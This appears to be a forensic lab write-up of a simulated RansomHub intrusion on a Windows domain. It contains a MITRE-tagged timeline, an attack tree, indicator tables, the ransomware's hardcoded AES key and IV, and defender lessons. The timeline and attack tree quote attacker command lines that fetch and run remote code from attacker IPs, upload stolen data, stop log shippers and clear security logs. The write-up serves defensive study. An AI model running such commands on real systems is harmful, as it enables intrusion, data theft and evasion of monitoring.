| 2026-03-22 19:17:53 | Discovery | certutil -v -template dumps AD CS certificate templates to template_audit.log | T1649 |
| 2026-03-22 19:20:18 | Credential Access | 2026_Payroll_Adjustments.zip (containing malicious .library-ms) copied to \DC01\Finance\ | T1080 |
| 2026-03-22 19:20:31 | Credential Access | Same archive copied to \DC01\IT-Helpdesk\ | T1080 |
| 2026-03-22 19:26:30 – 19:31:36 | Credential Access | .library-ms (CVE-2025-24071) triggers forced NTLM auth from omar.hassan, nour.khalil, ahmed.farouk | T1187 |
| 2026-03-22 19:46:21 | Privilege Escalation | khaled.ibrahim requests certificate (template Maromalix-UserAuth) with SAN upn=mohamed.elfeky@maromalix.corp | T1649 |
| 2026-03-22 19:46:55 | Privilege Escalation | Certificate issued (ESC1 misconfiguration) | T1649 |
| 2026-03-22 19:47:17 | Privilege Escalation | PKINIT Kerberos auth as mohamed.elfeky using fraudulent certificate | T1649, T1078 |
| 2026-03-22 19:50:59 – 19:51:34 | Lateral Movement | mohamed.elfeky authenticates to WKSTN-01, WKSTN-02, WKSTN-03, DC01 in rapid succession | T1021 |
| 2026-03-22 19:51:59 – 19:52:00 | Lateral Movement | smbexec.py (Impacket) used for remote command execution on all 4 hosts | T1021.002, T1569.002 |
| 2026-03-22 19:52:00 | Defense Evasion | sc stop "filebeat" halts log shipping on WKSTN-01 (via smbexec.py) | T1562.001, T1489 |
| 2026-03-22 19:52:36 | Defense Evasion | sc stop "winlogbeat" causes complete SIEM blackout | T1562.001, T1489 |
| 2026-03-22 19:54:58 | Impact | Missme.exe downloaded via powershell -c iwr from 3.75.76.243:4422 to C:\Windows\Temp\ | T1105 |
| 2026-03-22 19:56:38 | Impact | Windows Defender quarantines Missme.exe on WKSTN-03 (Trojan:MSIL/Lazy.BAC!MTB) — deployment fails here | T1486 (attempted) |
| 2026-03-22 19:59:41 – 20:00:11 | Impact | Missme.exe (RansomHub) stages, exfiltrates, then mass-encrypts files (.94ccaa) on WKSTN-01, WKSTN-02, DC01 | T1486, T1560 |
| 2026-03-22 20:00:11 | Exfiltration | Staged victim data uploaded to http://35.158.162.78:8080/upload (header X-Victim) | T1567 |
| 2026-03-22 20:00:11 | Impact | Ransom note (README_<ext>.txt) written to all user desktops; .onion negotiation portal referenced, 90hr deadline | T1486 |
| 2026-03-22 20:02:28 – 20:02:50 | Defense Evasion | smbexec.py used again to run wevtutil cl Security on DC01, clearing logs | T1070.001 |
| 2026-03-22 20:03:40 | Defense Evasion | winlogbeat restarted, ending the ~11-minute SIEM blackout window | T1562.001 |
| 2026-03-22 20:0X | Impact | Ransomware self-deletes (ping-delay, deletes Prefetch entry + own binary) | T1070.004 |

## Text Tree

```bash
[Initial Access] omar.hassan visits hxxp://maromalix[.]cloud  ← compromised page, fake browser-fix lure
    └── caret-obfuscated cmd.exe + nslookup -timeout=5 example.com 3[.]77[.]33[.]191  ← ClickFix, queries rogue DNS server
        └── payload smuggled in forged DNS `Name` field response
            └── powershell -nop -w hidden -c IEX(downloadstring('hxxp://35[.]158[.]162[.]78/a'))
                └── Cobalt Strike Beacon reflectively loaded in powershell.exe memory  ← HTTPS C2, 35[.]158[.]162[.]78:443/updates
                    ├── [Stage 1 — Persistence]
                    │   └── HKCU\...\Run\Update  ← re-runs stager on every logon
                    ├── [Stage 2 — Discovery]
                    │   ├── SharpHound.exe (renamed QA.exe) → C:\Users\omar.hassan\Q2_review\20260322185250_revenue.zip
                    │   │       └── ADCS-focused JSONs (aiacas, enterprisecas, certtemplates...)  ← ESC hunting
                    │   └── certutil -v -template → template_audit.log
                    ├── [Stage 3 — Credential Access]
                    │   └── 2026_Payroll_Adjustments.zip → \\DC01\Finance\, \\DC01\IT-Helpdesk\
                    │       └── 2026_Payroll_Adjustments.library-ms  ← CVE-2025-24071, forced NTLM auth
                    │           ├── omar.hassan
                    │           ├── nour.khalil
                    │           └── ahmed.farouk
                    ├── [Stage 4 — Privilege Escalation]
                    │   └── khaled.ibrahim requests cert (template Maromalix-UserAuth, ESC1)
                    │       └── SAN upn=mohamed.elfeky@maromalix.corp  ← impersonation
                    │           └── PKINIT auth as mohamed.elfeky
                    ├── [Stage 5 — Lateral Movement]
                    │   └── mohamed.elfeky authenticates to all 4 hosts in ~35s
                    │       └── smbexec.py (Impacket) remote command execution
                    │           ├── WKSTN-01
                    │           ├── WKSTN-02
                    │           ├── WKSTN-03
                    │           └── DC01
                    ├── [Stage 6 — Defense Evasion]
                    │   └── sc stop "filebeat" / sc stop "winlogbeat"  ← ~11min SIEM blackout
                    │       └── wevtutil cl Security (DC01)  ← log clearing inside blackout window
                    └── [Stage 7 — Impact]
                        └── powershell iwr hxxp://3[.]75[.]76[.]243:4422/Missme.exe → C:\Windows\Temp\Missme.exe
                            ├── WKSTN-03  ← Defender quarantine, Trojan:MSIL/Lazy.BAC!MTB, deployment FAILS
                            ├── WKSTN-01  ← 40 files encrypted (.94ccaa)
                            ├── WKSTN-02  ← files encrypted (.94ccaa)
                            └── DC01      ← 37 files encrypted (.94ccaa)
                                ├── ExfilZip() → hxxp://35[.]158[.]162[.]78:8080/upload  ← double extortion
                                ├── README_<ext>.txt dropped on all desktops  ← .onion negotiation portal, 90hr deadline
                                └── SelfDelete()  ← ping-delay, deletes Prefetch + own binary
```

# Artifacts

**Network Indicators**

| Type | Value |
| --- | --- |
| Initial lure domain | maromalix[.]cloud |
| Attacker DNS server | 3.77.33.191 |
| Cobalt Strike C2 | 35.158.162.78:443 (HTTPS, /updates) |
| Cobalt Strike C2 (secondary, lateral movement TCP beacon) | 35.158.162.78:4422 |
| Ransomware download/staging server | 3.75.76.243:4422 |
| Exfiltration endpoint | hxxp://35.158.162.78:8080/upload |
| Ransom negotiation portal | hxxp://ransomhubn3snwif3ixzs7hdpsnpfiqzqyqbgzgkiodglqwrj7jk5cqd.onion |

**Host Indicators**

| Type | Value |
| --- | --- |
| Affected hosts | WKSTN-01, WKSTN-02, WKSTN-03, DC01 |
| Initial victim user | omar.hassan |
| Impersonated/escalated account | mohamed.elfeky |
| ESC1 certificate requester | khaled.ibrahim |
| Recon tool staging directory | C:\Users\omar.hassan\Q2_review |
| Recon tool (renamed) | QA.exe (original: SharpHound.exe) |
| Final recon archive | 20260322185250_revenue.zip |
| Malicious lure archive | 2026_Payroll_Adjustments.zip |
| Forced-auth payload | 2026_Payroll_Adjustments.library-ms |
| Ransomware binary | C:\Windows\Temp\Missme.exe |
| Ransomware namespace/family | RansomHub |
| Defender detection name | Trojan:MSIL/Lazy.BAC!MTB |
| Encrypted file extension | .94ccaa |
| Lateral movement tool | smbexec.py (Impacket) |

**Vulnerability / Technique Indicators**

| Type | Value |
| --- | --- |
| Forced-authentication CVE | CVE-2025-24071 |
| Vulnerable ADCS template | Maromalix-UserAuth (ESC1) |
| SigmaHQ detection rule | win_system_hack_smbexec |

**Encryption Parameters**

| Parameter | Value |
| --- | --- |
| Algorithm | AES-256-CBC |
| Padding | PKCS7 |
| Key (hex) | 3f8a2c1d7b4e9f6a0c5d2e8b1f3a7c4ed1a3f50b6c9e2d4f8a1b7c3e5d9f2a6b |
| IV (hex) | 9b4f2a7c1e3d8f5ba26e0cd43f7a1b8e |

# Lab Insights

- Log shipping is a single point of trust, not a single point of truth. Throughout this lab, the SIEM's apparent silence at three separate moments — sparse network capture early on, missing Sysmon/PowerShell coverage on disk versus Elastic, and a deliberate 11-minute winlogbeat blackout later — never actually meant "nothing happened." Each time, the right move was the same: treat absence of evidence in one telemetry pipe as a prompt to check a structurally different source (browser history, USN Journal, disk-resident MFT data), not as a conclusion. An attacker who can stop one shipping agent has only blinded one lens, not the underlying filesystem.
- Static-detection signatures survive renaming, but not always argument structure. SharpHound became QA.exe, but its --CollectionMethods/--OutputDirectory/--ZipFileName flags gave it away instantly. `smbexec.py` never dropped a persistent binary at all, yet its echo > .bat & run & del plus _*output* relay pattern was identical and traceable across all four compromised hosts. The lesson generalizes: filenames are the cheapest thing for an attacker to change, and the cheapest thing for a defender to stop relying on.
- Deletion is not destruction when there are multiple independent ledgers of the same fact. Files vanished from $MFT repeatedly (the SharpHound zip, the payroll zip, the .library-ms payload), and each time the USN Journal still held the change-log breadcrumb the live filesystem no longer did. NTFS itself, not any security tool, was the redundant witness — worth remembering that "the attacker deleted it" and "the evidence is gone" are not the same claim.
- A single technique reused across categories was the throughline of the whole intrusion, not piecemeal tradecraft. The same C2 IP served Cobalt Strike, a secondary lateral-movement beacon, and the ransomware's exfiltration upload, just on different ports; the same `smbexec.py` service-installation pattern executed remote commands, killed log shippers, and cleared event logs. Recognizing one fingerprint early made every later "new" finding actually a confirmation, not a fresh investigation.
- Hardcoded crypto is a forensic gift, but only if you go looking for it before the binary disappears. The ransomware's AES key and IV were static across every victim — meaning successful decryption never depended on capturing a key in transit or breaking the algorithm, only on getting eyes on the decompiled source before the analysis environment expired. The actual bottleneck in this lab was never cryptography; it was whether the binary stayed reachable long enough to read it.

# Forensic Timeline


